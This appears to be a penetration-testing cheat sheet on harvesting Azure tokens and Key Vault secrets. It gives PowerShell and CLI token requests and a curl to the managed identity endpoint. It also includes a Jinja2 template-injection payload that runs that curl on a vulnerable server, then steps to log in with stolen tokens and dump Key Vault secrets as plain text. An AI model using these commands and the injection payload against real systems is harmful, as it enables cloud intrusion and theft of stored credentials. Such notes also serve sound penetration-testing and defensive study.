 ### Requesting tokens once logged in
#### AZ powershell
- Supported tokens - AadGraph, AnalysisServices, Arm, Attestation, Batch, DataLake, KeyVault, OperationalInsights, ResourceManager, Synapse
```
Get-AzAccessToken -ResourceTypeName AadGraph
```

#### Azure CLI
- Supported tokens - aad-graph, arm, batch, data-lake, media, ms-graph, oss-rdbms
```
az account get-access-token --resource-type ms-graph 
```

### Keyvault
#### Get keyvault access token
```
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```
```
{{config.__class__.__init__.__globals__['os'].popen('curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read()}}
```


### Login to account with access tokens for keyvault
```
$accesstoken = ''
$keyvaulttoken = ``

Connect-AzAccount -AccessToken $accesstoken -AccountId <ID> -KeyVaultAccessToken $keyvaulttoken
```

#### List all keyvaults
```
Get-AzKeyVault
```

#### Get info about a specific keyvault
```
Get-AzKeyVault -VaultName <VAULT NAME>
```

#### List the saved creds from keyvault
```
Get-AzKeyVaultSecret -VaultName <VAULT NAME> -AsPlainText
```

#### Read creds from a keyvault
```
Get-AzKeyVaultSecret -VaultName <VAULT NAME> -Name <NAME> -AsPlainText
```
